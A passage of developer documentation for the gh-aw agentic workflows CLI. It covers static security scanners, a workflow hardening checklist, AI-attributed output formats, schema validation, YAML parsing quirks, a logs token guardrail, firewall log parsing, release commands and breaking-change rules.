| actions | Read runs | Cancel runs | Workflow management |
| checks | Read checks | Create checks | Status checks |
| deployments | Read deployments | Create deployments | Deployment management |

### Static Analysis Integration

Integrate static analysis tools into development and CI/CD workflows:

#### Available Tools

- **actionlint** - Lints GitHub Actions workflows, validates shell scripts
- **zizmor** - Security vulnerability scanner for GitHub Actions
- **poutine** - Supply chain security analyzer

#### Running Locally

```bash
# Run individual scanners
actionlint .github/workflows/*.yml
zizmor .github/workflows/
poutine analyze .github/workflows/

# For gh-aw workflows
gh aw compile --actionlint
gh aw compile --zizmor
gh aw compile --poutine

# Strict mode: fail on findings
gh aw compile --strict --actionlint --zizmor --poutine
```

### Security Checklist

#### Template Injection
- [ ] No untrusted input in `${{ }}` expressions
- [ ] Untrusted data passed via environment variables
- [ ] Safe context variables used where possible
- [ ] Sanitized context used (gh-aw: `needs.activation.outputs.text`)

#### Shell Scripts
- [ ] All variables quoted: `"$VAR"`
- [ ] No SC2086 warnings (unquoted expansion)
- [ ] Strict mode enabled: `set -euo pipefail`
- [ ] Input validation implemented
- [ ] shellcheck passes with no warnings

#### Supply Chain
- [ ] All actions pinned to SHA (not tags/branches)
- [ ] Version comments added to pinned actions
- [ ] Actions from verified creators or reviewed
- [ ] Dependencies scanned for vulnerabilities

#### Permissions
- [ ] Minimal permissions specified
- [ ] No `write-all` permissions
- [ ] Job-level permissions used when needed
- [ ] Fork PR handling secure

#### Static Analysis
- [ ] actionlint passes (no errors)
- [ ] zizmor passes (High/Critical addressed)
- [ ] poutine passes (supply chain secure)


## Safe Output Messages

Safe output functions handle GitHub API write operations (creating issues, discussions, comments, PRs) from AI-generated content with consistent messaging patterns.

### Safe Output Message Flow

The following diagram illustrates how AI-generated content flows through the safe output system to GitHub API operations:



**Flow Stages:**
1. **AI Agent Output** - AI generates content for GitHub operations
2. **Staged Mode Check** - Determines if operation is in preview mode
3. **Safe Output Processing** - Routes to appropriate GitHub operation type
4. **Message Pattern Application** - Applies consistent formatting (footers, instructions, links)
5. **GitHub API Execution** - Performs the actual GitHub operation
6. **Success Summary** - Reports results in workflow step summary

### Message Categories

#### AI Attribution Footer

Identifies content as AI-generated and links to workflow run:

```markdown
> AI generated by [WorkflowName](run_url)
```

With triggering context:
```markdown
> AI generated by [WorkflowName](run_url) for #123
```

#### Workflow Installation Instructions

```markdown
>
> To add this workflow in your repository, run `gh aw add owner/repo/path@ref`. See [usage guide](https://githubnext.github.io/gh-aw/setup/cli/).
```

#### Staged Mode Preview

All staged mode previews use consistent format with 🎭 emoji:

```markdown
## 🎭 Staged Mode: [Operation Type] Preview

The following [items] would be [action] if staged mode was disabled:
```

#### Patch Preview

Display git patches in pull request bodies with size limits:

```markdown
<details><summary>Show patch (45 lines)</summary>

\`\`\`diff
diff --git a/src/auth.js b/src/auth.js
index 1234567..abcdefg 100644
--- a/src/auth.js
+++ b/src/auth.js
@@ -10,7 +10,10 @@ export async function login(username, password) {
-    throw new Error('Login failed');
+    if (response.status === 401) {
+      throw new Error('Invalid credentials');
+    }
+    throw new Error('Login error: ' + response.statusText);
\`\`\`

</details>
```

Limits: Max 500 lines or 2000 characters (truncated with "... (truncated)" if exceeded)

### Design Principles

#### Consistency
- All AI-generated content uses same blockquote footer format
- 🎭 emoji consistently marks staged preview mode
- URL patterns match GitHub conventions
- Step summaries follow same heading and list structure

#### Clarity
- Clear distinction between preview and actual operations
- Explicit error messages with actionable guidance
- Helpful fallback instructions when operations fail
- Field labels consistently use bold text

#### Discoverability
- Installation instructions included in footers when available
- Related items automatically linked across workflow outputs
- Step summaries provide quick access to created items
- Collapsible sections keep large content manageable

#### Safety
- Labels sanitized to prevent unintended @mentions
- Patch sizes validated and truncated when needed
- Staged mode allows testing without side effects
- Graceful fallbacks when primary operations fail


## Schema Validation

All three JSON schema files enforce strict validation with `"additionalProperties": false` at the root level, preventing typos and undefined fields from silently passing validation.

### Schema Files

| File | Purpose |
|------|---------|
| `pkg/parser/schemas/main_workflow_schema.json` | Validates agentic workflow frontmatter in `.github/workflows/*.md` files |
| `pkg/parser/schemas/mcp_config_schema.json` | Validates MCP (Model Context Protocol) server configuration |

### How It Works

When `"additionalProperties": false` is set at the root level, the validator rejects any properties not explicitly defined in the schema's `properties` section. This catches common typos:

- `permisions` instead of `permissions`
- `engnie` instead of `engine`
- `toolz` instead of `tools`
- `timeout_minute` instead of `timeout-minutes`
- `runs_on` instead of `runs-on`
- `safe_outputs` instead of `safe-outputs`

### Example Validation Error

```bash
$ gh aw compile workflow-with-typo.md
✗ error: Unknown properties: toolz, engnie, permisions. Valid fields are: tools, engine, permissions, ...
```

### Validation Process



### Schema Embedded in Binary

Schemas are embedded in the Go binary using `//go:embed` directives:

```go
//go:embed schemas/main_workflow_schema.json
var mainWorkflowSchema string
```

This means:
- Schema changes require running `make build` to take effect
- Schemas are validated at runtime, not at build time
- No external JSON files need to be distributed with the binary

### Adding New Fields

When adding new fields to schemas:

1. Update the schema JSON file with the new property definition
2. Rebuild the binary with `make build`
3. Add test cases to verify the new field works
4. Update documentation if the field is user-facing


## YAML Compatibility

YAML has two major versions with incompatible boolean parsing behavior that affects workflow validation.

### The Core Issue

#### YAML 1.1 Boolean Parsing Problem

In YAML 1.1, certain plain strings are automatically converted to boolean values. The workflow trigger key `on:` can be misinterpreted as boolean `true` instead of string `"on"`.

**Example:**
```python
# Python yaml.safe_load (YAML 1.1 parser)
import yaml

content = """
on:
  issues:
    types: [opened]
"""

result = yaml.safe_load(content)
print(result)
# Output: {True: {'issues': {'types': ['opened']}}}
#          ^^^^ The key is boolean True, not string "on"!
```

This creates false positives when validating workflows with Python-based tools.

#### YAML 1.2 Correct Behavior

YAML 1.2 parsers treat `on`, `off`, `yes`, and `no` as regular strings, not booleans. Only explicit boolean literals `true` and `false` are treated as booleans.

**Example:**
```go
// Go goccy/go-yaml (YAML 1.2 parser) - Used by gh-aw
var result map[string]interface{}
yaml.Unmarshal([]byte(content), &result)

fmt.Printf("%+v\n", result)
// Output: map[on:map[issues:map[types:[opened]]]]
//         ^^^ The key is string "on" ✓
```

### How gh-aw Handles This

GitHub Agentic Workflows uses **`goccy/go-yaml` v1.18.0**, which is a **YAML 1.2 compliant parser**:

- ✅ `on:` is correctly parsed as a string key, not a boolean
- ✅ Workflow frontmatter validation works correctly
- ✅ GitHub Actions YAML is compatible (GitHub Actions also uses YAML 1.2 parsing)

### Compatibility Flow



### Affected Keywords

YAML 1.1 treats these as booleans (parsed as `true` or `false`):

**Parsed as `true`:** on, yes, y, Y, YES, Yes, ON, On
**Parsed as `false`:** off, no, n, N, NO, No, OFF, Off

YAML 1.2 treats all of the above as strings. Only these are booleans: `true`, `false`

### Recommendations

#### For Workflow Authors

1. **Use gh-aw's compiler for validation:**
   ```bash
   gh aw compile workflow.md
   ```

2. **Don't trust Python yaml.safe_load for validation** - it will give false positives for the `on:` trigger key.

3. **Use explicit booleans when you mean boolean values:**
   ```yaml
   enabled: true      # Explicit boolean
   disabled: false    # Explicit boolean

   # Avoid for boolean values:
   enabled: yes       # Might be confusing across parsers
   disabled: no       # Might be confusing across parsers
   ```

#### For Tool Developers

1. **Use YAML 1.2 parsers for gh-aw integration:**
   - Go: `github.com/goccy/go-yaml`
   - Python: `ruamel.yaml` (with YAML 1.2 mode)
   - JavaScript: `yaml` package v2+ (YAML 1.2 by default)
   - Ruby: `Psych` (YAML 1.2 by default in Ruby 2.6+)

2. **Document parser version in your tool**

3. **Consider adding compatibility mode** to switch between YAML 1.1 and 1.2 parsing


## MCP Logs Guardrail

The MCP server `logs` command includes an automatic guardrail to prevent overwhelming responses when fetching workflow logs.

### How It Works



### Normal Operation (Output ≤ Token Limit)

When output is within the token limit (default: 12000 tokens), the command returns full JSON data:

```json
{
  "summary": {
    "total_runs": 5,
    "total_duration": "2h30m",
    "total_tokens": 45000,
    "total_cost": 0.23
  },
  "runs": [...],
  "tool_usage": [...]
}
```

### Guardrail Triggered (Output > Token Limit)

When output exceeds the token limit, the command returns structured response with:

```json
{
  "message": "⚠️  Output size (15000 tokens) exceeds the limit (12000 tokens). To reduce output size, use the 'jq' parameter with one of the suggested queries below.",
  "output_tokens": 15000,
  "output_size_limit": 12000,
  "schema": { ... },
  "suggested_queries": [
    {
      "description": "Get only the summary statistics",
      "query": ".summary",
      "example": "Use jq parameter: \".summary\""
    },
    ...
  ]
}
```

### Configuring the Token Limit

Default limit is 12000 tokens (approximately 48KB of text). Customize using the `max_tokens` parameter:

```json
{
  "name": "logs",
  "arguments": {
    "count": 100,
    "max_tokens": 20000
  }
}
```

Token estimation uses approximately 4 characters per token (OpenAI's rule of thumb).

### Using the jq Parameter

Filter output using jq syntax:

**Get only summary statistics:**
```json
{ "jq": ".summary" }
```

**Get run IDs and basic info:**
```json
{ "jq": ".runs | map({database_id, workflow_name, status})" }
```

**Get only failed runs:**
```json
{ "jq": ".runs | map(select(.conclusion == \"failure\"))" }
```

**Get high token usage runs:**
```json
{ "jq": ".runs | map(select(.token_usage > 10000))" }
```

### Implementation Details

**Constants:**
- `DefaultMaxMCPLogsOutputTokens`: 12000 tokens (default limit)
- `CharsPerToken`: 4 characters per token (estimation factor)

**Files:**
- `pkg/cli/mcp_logs_guardrail.go` - Core guardrail implementation
- `pkg/cli/mcp_logs_guardrail_test.go` - Unit tests
- `pkg/cli/mcp_logs_guardrail_integration_test.go` - Integration tests
- `pkg/cli/mcp_server.go` - Integration with MCP server

### Benefits

1. Prevents overwhelming responses for AI models
2. Provides guidance with specific filters
3. Self-documenting with schema description
4. Preserves functionality with jq filtering
5. Transparent messaging about why guardrail triggered


## Release Management

The project uses a minimalistic changeset-based release system inspired by `@changesets/cli`.

### Commands

#### version (Preview Only)

The `version` command operates in preview mode and never modifies files:

```bash
node scripts/changeset.js version
# Or
make version
```

This command:
- Reads all changeset files from `.changeset/` directory
- Determines the appropriate version bump (major > minor > patch)
- Shows a preview of the CHANGELOG entry
- Never modifies any files

#### release [type] [--yes|-y]

The `release` command creates an actual release:

```bash
node scripts/changeset.js release
# Or (recommended - runs tests first)
make release
```

This command:
- Checks prerequisites (clean tree, main branch)
- Updates `CHANGELOG.md` with new version and changes
- Deletes processed changeset files (if any exist)
- Automatically commits the changes
- Creates and pushes a git tag for the release

**Flags:**
- `--yes` or `-y`: Skip confirmation prompt

### Release Workflow



### Changeset File Format

Changeset files are markdown files in `.changeset/` directory with YAML frontmatter:

```markdown
"gh-aw": patch

Brief description of the change
```

**Bump types:**
- `patch` - Bug fixes and minor changes (0.0.x)
- `minor` - New features, backward compatible (0.x.0)
- `major` - Breaking changes (x.0.0)

### Prerequisites for Release

When running `release`, the script checks:

1. **Clean working tree:** All changes must be committed or stashed
2. **On main branch:** Must be on the `main` branch to create a release

### Releasing Without Changesets

For maintenance releases with dependency updates:

```bash
# Defaults to patch release
node scripts/changeset.js release

# Or specify release type explicitly
node scripts/changeset.js release minor

# Skip confirmation
node scripts/changeset.js release --yes
```

The script will:
- Default to patch release if no type specified
- Add a generic "Maintenance release" entry to CHANGELOG.md
- Commit the changes
- Create a git tag
- Push the tag to remote


## Firewall Log Parsing

The firewall log parser provides analysis of network traffic logs from agentic workflow runs.

### Log Format

Firewall logs use space-separated format with 10 fields:

```
timestamp client_ip:port domain dest_ip:port proto method status decision url user_agent
```

**Example:**
```
1761332530.474 172.30.0.20:35288 api.enterprise.githubcopilot.com:443 140.82.112.22:443 1.1 CONNECT 200 TCP_TUNNEL:HIER_DIRECT api.enterprise.githubcopilot.com:443 "-"
```

### Field Descriptions

1. **timestamp** - Unix timestamp with decimal (e.g., "1761332530.474")
2. **client_ip:port** - Client IP and port or "-"
3. **domain** - Target domain:port or "-"
4. **dest_ip:port** - Destination IP and port or "-"
5. **proto** - Protocol version (e.g., "1.1") or "-"
6. **method** - HTTP method (e.g., "CONNECT", "GET") or "-"
7. **status** - HTTP status code (e.g., "200", "403") or "0"
8. **decision** - Proxy decision (e.g., "TCP_TUNNEL:HIER_DIRECT") or "-"
9. **url** - Request URL or "-"
10. **user_agent** - User agent string (quoted) or "-"

### Request Classification



**Allowed Indicators:**
- Status codes: 200, 206, 304
- Decisions containing: TCP_TUNNEL, TCP_HIT, TCP_MISS

**Denied Indicators:**
- Status codes: 403, 407
- Decisions containing: NONE_NONE, TCP_DENIED

**Default:** Denied (for safety when classification is ambiguous)

### Output Examples

#### Console Output

```
🔥 Firewall Log Analysis
Total Requests   : 8
Allowed Requests : 5
Denied Requests  : 3

Allowed Domains:
  ✓ api.enterprise.githubcopilot.com:443 (1 requests)
  ✓ api.github.com:443 (2 requests)

Blocked Domains:
  ✗ blocked-domain.example.com:443 (2 requests)
```

#### JSON Output

```json
{
  "firewall_log": {
    "total_requests": 8,
    "allowed_requests": 5,
    "blocked_requests": 3,
    "allowed_domains": [
      "api.enterprise.githubcopilot.com:443",
      "api.github.com:443"
    ],
    "blocked_domains": [
      "blocked-domain.example.com:443"
    ],
    "requests_by_domain": {
      "api.github.com:443": {
        "allowed": 2,
        "blocked": 0
      }
    }
  }
}
```

### Integration Points

The `logs` and `audit` commands automatically:
1. Search for firewall logs in run directories
2. Parse all `.log` files in `firewall-logs/` or `squid-logs/` directories
3. Aggregate statistics across all log files
4. Include firewall analysis in console and JSON output
5. Cache results in `run_summary.json`

### Implementation

**Files:**
- `pkg/cli/firewall_log.go` (396 lines) - Core parser implementation
- `pkg/cli/firewall_log_test.go` (437 lines) - Unit tests
- `pkg/cli/firewall_log_integration_test.go` (238 lines) - Integration tests

**Testing:**
```bash
# Unit tests
make test-unit

# Integration tests
go test ./pkg/cli -run TestFirewallLogIntegration
```


## Breaking CLI Rules

This section defines what constitutes a breaking change for the gh-aw CLI. These rules help maintainers and contributors evaluate changes during code review and ensure stability for users.

### Overview

Breaking changes require special attention during development and review because they can disrupt existing user workflows. This section provides clear criteria for identifying breaking changes and guidance on how to handle them.

### Categories of Changes

#### Breaking Changes (Major Version Bump)

The following changes are **always breaking** and require:
- A `major` changeset type
- Documentation in CHANGELOG.md with migration guidance
- Review by maintainers

**1. Command Removal or Renaming**

Breaking:
- Removing a command entirely (e.g., removing `gh aw logs`)
- Renaming a command without an alias (e.g., `gh aw compile` → `gh aw build`)
- Removing a subcommand (e.g., removing `gh aw mcp inspect`)

Examples from past releases:
- Removing `--no-instructions` flag from compile command (v0.17.0)

**2. Flag Removal or Renaming**

Breaking:
- Removing a flag (e.g., removing `--strict` flag)
- Changing a flag name without backward compatibility (e.g., `--output` → `--out`)
- Changing a flag's short form (e.g., `-o` → `-f`)
- Changing a required flag to have no default when it previously had one

Examples from past releases:
- Remove GITHUB_TOKEN fallback for Copilot operations (v0.24.0)

**3. Output Format Changes**

Breaking:
- Changing the structure of JSON output (removing fields, renaming fields)
- Changing the order of columns in table output that users might parse positionally
- Changing exit codes for specific scenarios
- Removing output fields that scripts may depend on

Examples from past releases:
- Update status command JSON output structure (v0.21.0): replaced `agent` with `engine_id`, removed `frontmatter` and `prompt` fields

**4. Behavior Changes**

Breaking:
- Changing default values for flags (e.g., `strict: false` → `strict: true`)
- Changing authentication requirements
- Changing permission requirements
- Changing the semantics of existing options

Examples from past releases:
- Change strict mode default from false to true (v0.31.0)
- Remove per-tool Squid proxy - unify network filtering (v0.25.0)

**5. Schema Changes**

Breaking:
- Removing fields from workflow frontmatter schema
- Making optional fields required
- Changing the type of a field (e.g., string → object)
- Removing allowed values from enums

Examples from past releases:
- Remove "defaults" section from main JSON schema (v0.24.0)
- Remove deprecated "claude" top-level field (v0.24.0)

#### Non-Breaking Changes (Minor or Patch Version Bump)

The following changes are **not breaking** and typically require:
- A `minor` changeset for new features
- A `patch` changeset for bug fixes

**1. Additions**

Not Breaking:
- Adding new commands
- Adding new flags with reasonable defaults
- Adding new fields to JSON output
- Adding new optional fields to schema
- Adding new allowed values to enums
- Adding new exit codes for new scenarios

Examples:
- Add `--json` flag to status command (v0.20.0)
- Add mcp-server command (v0.17.0)

**2. Deprecations**

Not Breaking (when handled correctly):
- Deprecating commands (with warning, keeping functionality)
- Deprecating flags (with warning, keeping functionality)
- Deprecating schema fields (with warning, keeping functionality)

Requirements for deprecation:
- Print deprecation warning to stderr
- Document the deprecation and migration path
- Keep deprecated functionality working for at least one minor release
- Schedule removal in a future major version

**3. Bug Fixes**

Not Breaking (when fixing unintended behavior):
- Fixing incorrect output
- Fixing incorrect exit codes
- Fixing schema validation that was too permissive

Note: Fixing a bug that users depend on may require a breaking change notice.

**4. Performance Improvements**

Not Breaking:
- Faster execution
- Reduced memory usage
- Parallel processing optimizations

**5. Documentation Changes**

Not Breaking:
- Improving help text
- Adding examples
- Clarifying error messages

### Decision Tree: Is This Breaking?



### Guidelines for Contributors

**When Making CLI Changes:**

1. Check the decision tree before implementing changes
2. Document breaking changes clearly in the changeset
3. Provide migration guidance for users affected by breaking changes
4. Consider backward compatibility - can you add an alias instead of renaming?
5. Use deprecation warnings for at least one minor release before removal

**Changeset Format for Breaking Changes:**

```markdown
"gh-aw": major

Remove deprecated `--old-flag` option

**⚠️ Breaking Change**: The `--old-flag` option has been removed.

**Migration guide:**
- If you used `--old-flag value`, use `--new-flag value` instead
- Scripts using this flag will need to be updated

**Reason**: The option was deprecated in v0.X.0 and has been removed to simplify the CLI.
```

**Changeset Format for Non-Breaking Changes:**

For new features:
```markdown
"gh-aw": minor

Add --json flag to logs command for structured output
```

For bug fixes:
```markdown
"gh-aw": patch

Fix incorrect exit code when workflow file not found
```

### Review Checklist for CLI Changes

Reviewers should verify:

- [ ] Breaking change identified correctly - Does this change match any breaking change criteria?
